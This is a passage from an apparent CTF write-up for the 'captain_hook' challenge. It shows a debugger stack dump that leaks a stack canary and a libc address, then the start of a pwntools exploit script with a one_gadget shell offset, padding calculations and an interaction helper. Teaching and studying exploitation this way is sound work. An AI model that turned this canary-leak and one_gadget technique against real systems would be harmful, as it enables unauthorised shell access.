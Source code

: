 ```
   f 2     7ffff7a05b97 __libc_start_main+231
```

Okay, awesome. Looks like we have both the canary value and `__libc_start_main+231` (libc address) present in the stack in `read_character_infos`. Great, now all we have to do is craft our exploit!

```python
#! /usr/bin/python2

from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20336
BINARY = './captain_hook'

elf = context.binary = ELF(BINARY)
libc = ELF('./libc-2.27.so')

# Gadgets

libc.symbols['one_gadget'] = 0x4f322

'''
One Gadget
----------
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
    [rsp+0x40] == NULL
'''

# Offsets

CANARY_OFFSET = 40

'''
# Name input as: ABCDEFGHIJK
# Canary (0x49126acae49f1d00) is 40 bytes away

pwndbg> x/10gx $rsp
0x7fffffffdc60:	0x0000000000000000	0x0000555555757260
0x7fffffffdc70:	0x4847464544434241	0x00005500004b4a49  <- Name input
0x7fffffffdc80:	0x00007fffffffdda0	0x3400555500000004
0x7fffffffdc90:	0x000055555575000a	0x49126acae49f1d00  <- Canary
0x7fffffffdca0:	0x00007fffffffdcc0	0x0000555555555366

pwndbg> canary
AT_RANDOM = 0x7fffffffe0b9 # points to (not masked) global canary value
Canary    = 0x49126acae49f1d00
'''

# RIP Padding

PAYLOAD_PADDING = CANARY_OFFSET + 8 + 8  # Add 8 for canary and 8 more for rbp

# Helper Functions

PROMPT = 'peterpan@pwnuser:~$ '

def lock(conn, name = 'AAAA', index = 0, age = 1, date = '12/12/2020'):
    conn.sendlineafter(PROMPT, '2')
    conn.sendlineafter(' [ Character index ]: ', str(index))
    conn.sendlineafter('  Name: ', name)
    conn.sendlineafter('  Age: ', str(age))
    conn.sendlineafter('  Date (mm/dd/yyyy): ', date)
```

 [ Character index ]: 0
 [ Character index ]: 0